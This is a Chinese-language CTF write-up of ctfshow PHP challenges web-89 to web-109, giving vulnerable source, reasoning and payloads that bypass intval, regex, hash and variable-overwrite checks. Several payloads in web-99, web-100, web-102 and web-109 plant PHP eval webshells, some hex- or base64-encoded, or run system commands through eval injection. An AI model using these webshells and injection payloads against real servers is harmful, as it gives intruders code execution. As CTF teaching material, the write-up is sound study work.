

# web-php特性

## web-89（preg_match、intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

**解题思路：**

**两步，绕过正则，且intval不为0。**

**所以可以采取传入数组的方式绕过：**

**preg_match()只能处理字符串，如果处理数组会返回false；intval如果传入数组，会返回1**

payload:

```
?num[]=1
```

---

### preg_match()

[preg_match函数用法](https://www.runoob.com/php/php-preg_match.html)，[正则表达式语法](https://www.runoob.com/regexp/regexp-tutorial.html)。

`preg_match()`：执行正则表达式，进行字符串过滤。。`[0-9]`匹配0-9之间的所有字符。`/`相当于一个分隔符，`/../`之间的内容就是正则的语法。绕过方法：变量num为人工分配 ID 键的数值型数组，`preg_match()`就会失效。如`num[]=1,num[0]=1`

### intval()

[intval函数用法](https://www.runoob.com/php/php-intval-function.html)

**`intval()`：将变量的值默认转化为十进制。绕过方法：可以使用==的特性，如+16、16.0；或者进制转换后，左右变量也相等。**   

**int intval ( mixed $var [, int $base = 10 ] )**

**参数说明：**
    **$var：要转换成 integer 的数量值。**
    **$base：转化所使用的进制。**
**如果 base 是 0，通过检测 var 的格式来决定使用的进制：**
    **如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，**
    **如果字符串以 "0" 开始，使用 8 进制(octal)；否则，**
    **将使用 10 进制 (decimal)。**

1. **使用array()类型的数组，`intval`遇到空数组为0，非空数组为1.**
2. **使用人工分配 ID 键的数值型数组，`intval`遇到空数组为0，非空数组为1。**

---

## web-90（intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

**解题思路：**

1. **intval处理开头是数字的字符串时，返回值为开头的数**
2. **intval() int 函数如果base为0，则var中存在字母的话遇到字母就停止读取，但遇到e，会表示科学计数法**
3. **intval如果base是0，会通过检测 var 的格式来决定使用的进制，所以这里也可以使用进制绕过**

​	***if(intval($num,0)===4476){
​         *echo $flag;*
​	******这句话是base=0,所以会对num的格式进行检测，相当于个解密****
​	直接使用4476的16进制编码传上去****

payload：

```
?num=4476a
?num=4476e1
?num=0x117c
```

---

### 强类型比较

在php中，三个等号“===”是全等比较运算符，用于比较两个操作数的值是否相等，同时检测它们的类型

是否相同；只有两边的值和数据类型都相等时，运算结果才是TRUE。可以使用**进制转换**进行绕过

---

## web-91（正则匹配多行模式）

源码：

```
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

解题思路：

**第一个preg_match匹配多行匹配“php”   第二个preg_match只能匹配第一行中的“php”**

**%0a是换行**

payload：

```
?cmd=%0aphp
?cmd=abc%0aphp
?cmd=php%0a%0a
?cmd=php%0aphp
```

---

### 正则匹配模式

```swift
/i表示匹配大小写

字符 ^ 和 $ 同时使用时，表示精确匹配，需要匹配以php开头和以php结尾

m
多(more)行匹配
若存在换行\n并且有开始^或结束$符的情况下，
将以换行为分隔符，逐行进行匹配
$str = "abc\nabc";
$preg = "/^abc$/m";
preg_match($preg, $str,$matchs);
这样其实是符合正则表达式的，因为匹配的时候 先是匹配换行符前面的，接着匹配换行符后面的，两个都是abc所以可以通过正则表达式。

s
特殊字符圆点 . 中包含换行符
默认的圆点 . 是匹配除换行符 \n 之外的任何单字符，加上s之后, .包含换行符
$str = "abggab\nacbs";
$preg = "/b./s";
preg_match_all($preg, $str,$matchs);
这样匹配到的有三个 bg b\n bs

g
全局匹配，查找所有匹配项

A
强制从目标字符串开头匹配;

D
如果使用$限制结尾字符,则不允许结尾有换行; 

e
配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行; 
```

---

## web-92（intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

解题思路：

1. **第一个判断变成弱类型比较，所以不能用4476a绕过。重点是intval的第二个参数base，base=0时，intval会自动探测num的进制：如果num以0x开头，那么按16进制转换；如果num以0开头，默认按8进制转换；否则使用10进制。所以这个题用16进制绕过即可**
2. **`intval()`将浮点数转化为整型，使得条件成立，所以可以使用浮点数绕过**

payload：

```
?num=0x117c
?num=4476.1
```

---

### 弱类型比较

在php中两个等号==是弱类型比较，只需要值相等，不会检测类型是否相同，类型不同时会自动转换

特殊情况：0exxx类型字符串不管0e后的数字如何，都为0所以可以绕过弱类型比较

---

## web-93（intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

解题思路：

1. **这题字母比上题多加了个正则匹配，不能出现字母，所以十六进制绕过不行了，但是可以使用8进制绕过**，**注意这里10574要以0开头才会按8进制转换**
2. **也可以使用浮点数绕过**

payload：

```
?num=010574
?num=4476.1
```

---

## web-94（intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```


解题思路：

这里多了个strpos函数来查找0第一次在字符串中出现的位置，如果没找到会返回false，所以我们的payload中必须有0且0不能在第一位，所以8进制绕过不能用了。但是还有三种绕过方式

**我们可以在`010574`前面加一个`+`号，这样0就不在第一位了，intval转换后变为4476。**

**因为第一个判断使用的是强类型比较，所以可以在010574前加一个空格。intval转换依旧变为4476**

**同理还可以使用浮点数4476.0绕过**

payload：

```
?num=+010574
?num= 010574
?num=4476.0
```

---

### strpos()

```
strpos() - 查找字符串在另一字符串中第一次出现的位置（区分大小写）
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）
strrpos() - 查找字符串在另一字符串中最后一次出现的位置（区分大小写）
strripos() - 查找字符串在另一字符串中最后一次出现的位置（不区分大小写）
```

---

## web-95（intval）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

**解题思路：还是要绕过strpos函数**

**多过滤了一个点，导致我们无法使用小数点绕过，但是可以在8进制绕过的基础上前面加个+号来绕过**

**空格和换行符同理**

payload：

```
?num=+010574
?num= 010574
?num=%0a010574
```

---

## web-96（按路径读取文件）

源码：

```
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

解题思路：

**这题要我们想办法读取flag.php，但是又不能直接传flag.php，可以利用路径来读，也可以使用php伪协议**

```
?u=/var/www/html/flag.php	绝对路径
?u=./flag.php				相对路径
?u=php://filter/resource=flag.php	php伪协议
```

---

### highlight_file()

`highlight_file()` 函数用于将指定文件的内容以 HTML 格式进行高亮显示，并输出到浏览器。

语法：

```
highlight_file(string $filename, bool $return = false)
```

参数：

- `$filename`：必需，要高亮显示的文件路径。
- `$return`：可选，如果设置为 `true`，则返回高亮显示的文件内容，否则将内容直接输出到浏览器。

返回值： 如果 `$return` 参数设置为 `true`，则返回高亮显示的文件内容；否则没有返回值。

示例：

```
<?phphighlight_file("example.php");?>
```

上述示例将会将名为 `example.php` 的文件内容以 HTML 格式进行高亮显示，并输出到浏览器。

---

## web-97（md5函数漏洞）

源码：

```
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

解题思路：

这里我们用post传的值a和b需要不等，而且在md5函数处理后要全等

**利用数组**

**MD5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是相等的。**

payload：

```
POST：a[]=1&b[]=2
```

---

### md5()加密函数

[md5函数用法](https://www.runoob.com/php/func-string-md5.html)

md5() 函数计算字符串的 MD5 散列。

md5() 函数使用 RSA 数据安全，包括 MD5 报文摘要算法。

来自 RFC 1321 的解释 -  MD5 报文摘要算法：*MD5 报文摘要算法将任意长度的信息作为输入值，并将其换算成一个 128  位长度的"指纹信息"或"报文摘要"值来代表这个输入值，并以换算后的值作为结果。MD5  算法主要是为数字签名应用程序而设计的；在这个数字签名应用程序中，较大的文件将在加密（这里的加密过程是通过在一个密码系统下[如：RSA]的公开密钥下设置私有密钥而完成的）之前以一种安全的方式进行压缩。*

如需计算文件的 MD5 散列，请使用 [md5_file()](https://www.runoob.com/php/func-string-md5-file.html) 函数。

**md5() 函数不能处理数组，数组都返回 null，md5(a[])  结果为 null。**

---

## web-98（审计、传参、引用）

源码：

```
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

解题思路：

**&是引用符号，意思是：不同的名字访问同一个变量内容。php的引用是在变量或者函数、对象等前面加上&符号，PHP 的引用允许你用两个变量来指向同一个内容**

**$_GET?$_GET=&$_POST:'flag';意思：如果存在get方式，就把post的地址传给get，相当于get,只不过要利用post传一下参数**

**highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:FILE)意思：如果有通过GET方法传参'HTTP_FLAG=flag'，就highlight_file($flag)。否则highlight_file(FILE)**

中间两行不用管

payload：

```
GET：?111	随便传但是不能没有
POST：HTTP_FLAG=flag
```

---

### 引用

**&符号的利用**

感觉有点像c里的取地址符，指针

比如：

```
class test{
	var $enter;
	var $secret;
}


$a = new test();
$a->enter = &$a->secret;
```

这里就相当于a对象中的成员属性enter的值引用了a对象中成员属性secret的值，所以当secret的值改变的时候，enter依然与enter相同

---

# web-99（审计、in_array、file_put_contents）

源码：

```
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

 解题思路：

- highlight_file(_file_)：将当前文件的代码以语法高亮的形式输出到浏览器；
- **array_push()：向数组尾部插入一个或多个元素。**
- 在这里插入图片描述
- **rand()：生成随机数。**
- **in_array(参数1，参数2)：搜索数组中是否存在指定的值。第一个参数为要搜索的值，第二个参数为被搜索的数组。**
- **file_put_conntent(filename, data)：把一个字符串写入文件中。**
- **绕过in_array()：当没有指定第三个参数的时候，in_array就相当于==，弱类型对比。**（1.php==1）
- 这段代码的总体意思就是：首先生成一个数组，数组元素随机生成（有区间），GET传参n=1.php，POST传参content，内容为`<?php @eval($_POST[1]);?>`

payload：

```
?n=1.php

POST：content=<?php @eval($_POST[1]);?>
```

然后蚁剑连接即可拿到flag。

---

### in_array()

[in_array()用法](https://www.php.net/manual/zh/function.in-array.php)

in_array()函数搜索数组中是否存在指定的值。

语法：`in_array(search,array,type)`

```
参数					描述
search		必需。规定要在数组搜索的值
array		必需。规定要搜索的数组
type		可选，如果设置该参数为true，则检查搜索的数据与数组的值的类型是否相同
```

**type ： 类型，true全等 ，false非全等（默认）**

---

### file_put_contents()

[file_put_contents()用法](https://www.php.net/manual/zh/function.file-put-contents.php)

- 该函数访问文件时，遵循以下规则：
- 如果设置了 FILE_USE_INCLUDE_PATH，那么将检查 filename 副本的内置路径
- 如果文件不存在，将创建一个文件
- 打开文件
- 如果设置了 LOCK_EX，那么将锁定文件
- 如果设置了 FILE_APPEND，那么将移至文件末尾。否则，将会清除文件的内容
- 向文件中写入数据
- 关闭文件并对所有文件解锁
- 如果成功，该函数将返回写入文件中的字符数。如果失败，则返回 False。

```
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )

filename： 必需。规定要写入数据的文件。 如果文件不存在，则创建一个新文件。
data： 必需。规定要写入文件的数据。可以是字符串、数组或数据流。
```

---

## web-100（逻辑运算符优先级、is_numeric）

源码：

```
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


?>
```

**解题思路：**

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

**逻辑运算符的优先级："&&" > "||" > "=" > "and"，等号的优先级高于and，所以v0只跟v1有关系，v2和v3是干扰。**

**由于=的优先级大于and，因此只要满足v1是个数字，v0就返回1**

**所以$v1为数字即可让$v0为True**

**所以,让$ctfshow显出来就行了**

```
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
```

**通过代码审计，v2是不能带分号的，v3必须带一个分号**

payload：

```
/?v1=1&v2=var_dump($ctfshow)/*&v3=*/;      //利用注释符号/**/然后输出
或
/?v1=1&v2=&v3=?><?=`tac ctfshow.php`;      //?>闭合然后反引号执行命令
或
?v1=1&v2=highlight_file('ctfshow.php')/*&v3=*/;		//通过highlight_file高亮显示输出
或
http://5ba83a33-fa36-4b9c-b091-da557c318c7f.challenge.ctf.show/?v1=1&v2=eval($_POST[1])/*&v3=*/;	//利用蚁剑连接

使用print_r
v1=1&v2=print_r($ctfshow)&v3=;
```

注意flag的形式是ctfshow{xxx-xxx-xxx-xxx}

```fsharp
0x2d      //-

ctfshow{7c4e97b8-43ba-48af-8dbb-5466a0ca6796}  //最后一段有12位
```

---

### 逻辑运算符优先级

[逻辑运算符详解](https://www.runoob.com/php/php-operators.html)

"&&" > "||" > "=" > "and"

---

### is_numeric()

[is_numeric函数详解](https://www.php.net/manual/zh/function.is-numeric.php)

用于检测变量是否为数字或数字字符串。
 如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE

```
is_numeric(mixed $value): bool
```

参数

- `value` 需要检测的变量。             

返回值

- 如果 `value` 是数字或数字字符串，    返回 **`true`**，否则返回 **`false`**。   

---

## web-101（ReflectionClass反射类）

源码：

```
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>

```

解题思路：

**在上一题的基础上对v2和v3多了很多过滤，$和\\*以及反引号都被过滤所以不可以直接输出对象ctfshow、不可以注释、不可以反引号执行。**

**但是还可以使用反射类的方法；**

payload：

```
?v1=1&v2=echo new ReflectionClass&v3=;
```

---

### ReflectionClass反射类

**PHP Reflection API是PHP5才有的新功能，它是用来导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。**

反射类可以说成是类的一个映射，可以利用反射类来代替有关类的应用的任何语句

```
<?php
class A{
public static $flag="flag{123123123}";
const  PI=3.14;
static function hello(){
    echo "hello</br>";
}
}

/有这么一个A类，假设我们不知道这个类是干什么用的，我们需要知道类里面的信息，这时候就需要用到ReflectionClass来对类进行反射
//现在我可以通过反射来获取这个类中的方法，属性，常量

$a=new ReflectionClass('A');	//实例化反射对象,映射A类的信息


var_dump($a->getConstants());  获取一组常量
输出
 array(1) {
  ["PI"]=>
  float(3.14)
}

var_dump($a->getName());    获取类名
输出
string(1) "A"

var_dump($a->getStaticProperties()); 获取静态属性
输出
array(1) {
  ["flag"]=>
  string(15) "flag{123123123}"
}

var_dump($a->getMethods()); 获取类中的方法
输出
array(1) {
  [0]=>
  object(ReflectionMethod)#2 (2) {
    ["name"]=>
    string(5) "hello"
    ["class"]=>
    string(1) "A"
  }
  
 
  var_dump($a->getProperties());	  //获取所有属性

}
```

---

## web-102（php伪协议、hex2bin、substr、call_user_func）

源码：

```
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```

解题思路：

substr(string, start)：返回字符串的一部分；
call_user_func($callback, parameter)：调用函数，第一个参数为被调用的函数，第二个参数为被调用函数所需的参数；
file_put_contents(filename, data)：把data数据写入filename。
hex2bin()：将十六进制字符转化为ASCII码字符。

```
$s = substr($v2,2);
    $str = call_user_func($v1,$s);
    file_put_contents($v3,$str);
//主要是这三句话
先是第二句话，让变量s过一下v1函数，变量s 是substr($v2,2);   这句话的意思是从下标为2的位置获取字符串
然后file_put_contents，把str变量给v3

构造思路：
$v1：这里使用hex2bin()作为回调函数（16进制转化为字符）
$v2：这里要求全是数字。
$v3：使用PHP伪协议写入文件


$a=<?=`cat *`;
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //等号在base64中只是起到填充的作用，不影响具体的数据内容，直接用去掉，=和带着                        =的base64解码出来的内容是相同的。
                       bin2hex是把ASCII 字符的字符串转化为16进制
输出   5044383959474e6864434171594473
带e的话会被认为是科学计数法，可以通过is_numeric检测。
因为是从下标为2的位置取的字符串，所以要在前面加两个数字（随意）
v2=005044383959474e6864434171594473
```

**整个payload的逻辑就是将经过base64编码、16进制转换后的webshell赋值给v2（16进制后的shell必须为纯数字）,然后调用hex2bin将16进制形式的webshell转化为ASCII码形式（因为base64编码所用的字符属于ASCII，故ASCII码形式的webshell也就是base64形式的webshell）**，然后再使用php伪协议的过滤器，将base64形式的webshell进行解码后，写入到目标文件中。

payload：

```
php7：
?v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

POST：v1=hex2bin				//这个就是把16进制转换为ASCII 字符的字符串
访问1.php后查看源代码获得flag


php5：
在php5中16进制数是可以被is_numeric()（要带0x前缀）识别的，所以可以绕过is_numeric()，但是php7不行，
所以如果这题是php5环境
所以先用bin2hex()将<?php eval($_POST[1]);?>转为16进制编码
0x3c3f706870206576616c28245f504f53545b315d293b3f3e

?v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
这里不需要填充两个字符，而且hex2bin可以直接解码16进制编码

POST：v1=hex2bin
然后蚁剑连接
```

---

### call_user_func()

[call_user_func函数具体详解](https://www.php.net/manual/zh/function.call-user-func.php)

`call_user_func($callback, parameter)`：调用函数，第一个参数为被调用的函数，第二个参数为被调用函数所需的参数；

第一个参数是必须的，第二个参数可选

call_user_func支持传入数组，且可以用数组来调用静态方法

例如：

```
<?php
class a{
    static public function test(){
        echo 'flag';
    }
}

$ans[0] = 'a';
$ans[1] = 'test';
call_user_func($ans);

#输出
flag
```


---

### substr()

[substr函数详解](https://www.php.net/manual/zh/function.substr.php)

substr() 可以截取字符串

语法

    string substr( $str, start, length);
     $str ：被截取的字符串。
     start ：开始截取的位置。
     length ：截取的长度。

返回值

截取成功，就返回截取的字符串
start 超过字符串长度，就返回 false
start 和 length 设置成不合理的截取范围，就返回空字符串
substr((xxx),1,1):表示从第1个字母开始，显示1个字母，从1开始计数

---

### hex2bin()

[hex2bin函数详解](https://www.php.net/manual/zh/function.hex2bin.php)

`hex2bin()`：将十六进制字符转化为ASCII码字符。

---

### php伪协议

[CTF之php伪协议以及能使用php伪协议的函数](https://www.cnblogs.com/hithub/p/16299548.html)

## web-103（同上题）

相比上一题只是检测了webshell中有没有php字符串

做法和上题一模一样

---

## web-104（sha1数组绕过）

源码：

```
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}

?>
```

解题思路：

**sha1跟md5类似，都无法处理数组，且存在==弱比较，所以可以用数组绕过**

**0e绕过，当sha1处理字符串后如果出现0exxx这种数据，在弱类型比较中都会等于0所以能相等**

**但是这题只要填两个相同字符串就能过，有点逆天**

payload：

```
POST：v1[]=0  
?v2[]=1   

POST：v1=aaK1STfY   //0e76658526655756207688271159624026011393
?v2=aaO8zKZF   //0e89257456677279068558073954252716165668

逆天
POST: v1=1
?v2=1
```

---

### sha1()

[sha1详解](https://www.php.net/manual/zh/function.sha1.php)

sha1 — 计算字符串的 sha1 散列

**sha1**(string `$string`, bool `$binary` = **`false`**): 

以字符串形式返回 sha1 散列值。

绕过方法：不能处理数组，而且能构造出0exxxx类型数据，能绕过弱类型比较

---

## web-105（变量覆盖、die）

源码：

```
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");	//键名不能是error
    }
    $$key=$$value;			//变量覆盖，意思就是$key的内容作为变量，例如：$key=xx，$$key=$xx
    							就是把你传入的值给弄成变量
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");	//键值不能是flag
    }
    $$key=$$value;			//变量覆盖
}
if(!($_POST['flag']==$flag)){		//不相等就die($error)
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
```

解题思路：

有两个地方有变量覆盖，有两个die函数输出，最后一个die函数要用的话，必须设置flag，但是设置flag后就只有进行变量覆盖了，所以只能用第一个die函数里的error，需要考虑怎么通过变量覆盖使变量error和变量flag相等，还需要借助变量suces

```swift
当get 方式传入suces=flag,$key=suces，$value=flag 
foreach($_GET as $key => $value){
    $$key=$$value;    #变成了$suces=$flag,$suces的值是flag的值
 }
当post传入error=suces,$key=error,$value=suces
foreach($_POST as $key => $value){
    $$key=$$value;  #变成了$error=$flag,$error的值是flag的值
}
```

payload：

```
触发die($error)来输出flag
?suces=flag
post：error=suces

?suces=flag&flag=1	注意，`$<常量>=null`
post：flag=

或者也可以使用下面的echo来输出flag
?suces=flag
post：error=suces&flag=
这里$flag在第二次循环时会被覆盖为空，从而脱离最后一个if判断，最后触发echo
```

---

### 变量覆盖

变量覆盖是把变量的值当作另一个变量的名

例如：

```
$a='b';
$b='c';
echo '$a';		#b
echo '$b';		#c
echo '$$a' 		#c
```

---

### die()

PHP 中的 die() 函数是一个终止脚本执行的函数，它会立即结束当前正在运行的脚本，并可选地输出一条错误信息（可以输出变量）

**用法**

die() 函数的语法如下：

```
die(message)
```

参数 message 是一个可选的字符串，将作为错误信息在脚本终止前显示。如果没有提供错误信息，则不会显示任何内容。

---

## web-106（sha1数组绕过）

源码：

```
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}


?>
```

解题思路：

我怀疑104出错了，这题才是对的，解题思路就不重写了，就在104，比104多了个$v1!=$v2

payload：

```
POST：v1[]=0  
?v2[]=1   

POST：v1=aaK1STfY   //0e76658526655756207688271159624026011393
?v2=aaO8zKZF   //0e89257456677279068558073954252716165668
```

## web-107（parse_str()变量覆盖）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}


?>
```

解题思路：

parse_str会将$v1的值赋给$v2

md5弱比较。
 数组绕过，md5不处理数组，返回null，v1不输入业返回null

payload：

```
md5处理数组为null，然后parse_str('flag=',$v2)，$v2=null
?v3[]=1
post：v1=flag=

或者
因为这里parse_str会将$v1的值赋给$v2
所以让v2数组中flag的值等于变量v3的md5值就行了
让v1=flag=e80118aff3ed3bc6f99038f65bef881b就可以让 [flag] => e80118aff3ed3bc6f99038f65bef881b存入到v2数组中

?v3=harker
post:v1=flag=e80118aff3ed3bc6f99038f65bef881b
```

---

### parse_str()

[parse_str函数详解](https://www.runoob.com/php/func-string-parse-str.html)

parse_str() 函数把查询字符串解析到变量中。

**注释：**如果未设置 array 参数，由该函数设置的变量将覆盖已存在的同名变量。

**注释：**php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_str() 解析之前，变量会被 addslashes() 转换。

语法：

parse_str(*string,array*)

| 参数     | 描述                                                       |
| -------- | ---------------------------------------------------------- |
| *string* | 必需。规定要解析的字符串。                                 |
| *array*  | 可选。规定存储变量的数组名称。该参数指示变量存储到数组中。 |

```
<?php
parse_str("name=Peter&age=43",$myArray);
print_r($myArray);
?>


Array ( [name] => Peter [age] => 43 ) 

如果string参数填xxx=后面没有值
则$myArray['xxx']=null
```

---

## web-108（ereg()、%00截断）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

解题思路：

**ereg()正则匹配函数，类似preg_match，php7.0已删除。ereg()存在%00截断漏洞，也就是说在字符串中遇到%00，php解析器会认为字符串结束了。而且截断之后，%00后面的值会重新赋值给原来的变量。**
**strrev()反转字符串。**
**==弱类型比较支持不同的进制进行比较，就比如16==0x10，这是true。**

payload：

```
构造payload让前面的字母被ereg正则匹配（因为正则要求传值中有至少一个字母），然后使用%00截断，然后%00后面的值会赋值给原来的变量
然后会用strrev()反转字符串并且intval处理之后跟0x36d进行弱类型比较，所以我们只要传0x36d的十进制数877，反转之后就是778

?c=a%00778
```

---

### ereg()

`ereg()`正则匹配函数，类似`preg_match`，php7.0已删除。`ereg()`存在%00截断漏洞，也就是说在字符串中遇到%00，php解析器会认为字符串结束了。**而且截断之后，%00后面的值会重新赋值给原来的变量。**

---

### strrev()

strrev() ：反转字符串

---

## web-109（__toString()方法、原生类利用，异常类和反射类）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

解题思路：

原生类利用，异常类和反射类
 类可以输出，就是当类被当作字符串执行，会调用__toString魔术方法，这个类要有这个魔术方法,并且要有返回值才可以输出，这个值要可控

**Exception 处理用于在指定的错误发生时改变脚本的正常流程，是php内置的异常处理类**
**通过异常处理类Exception(system(‘cmd’))可以运行指定代码，并且能返回运行的结果**
**ReflectionClass 或者 ReflectionMethod 都为常用的反射类，可以理解为一个类的映射**

payload：

```
?v1=Exception&v2=system("tac f*")

?v1=ReflectionClass&v2=system("tac f*")

?v1=ReflectionMethod&v2=system('tac f*')

使用DateTime
v1=DateTime&v2=system('tac f*')


echo new Exception(system('tac f*')())
会先执行命令system('tac f*')，然后会执行完函数把函数的结果在通过异常进行抛出
```

---

### PHP原生类

[php原生类总结](https://blog.csdn.net/unexpectedthing/article/details/121780909)

---

### __toString()方法

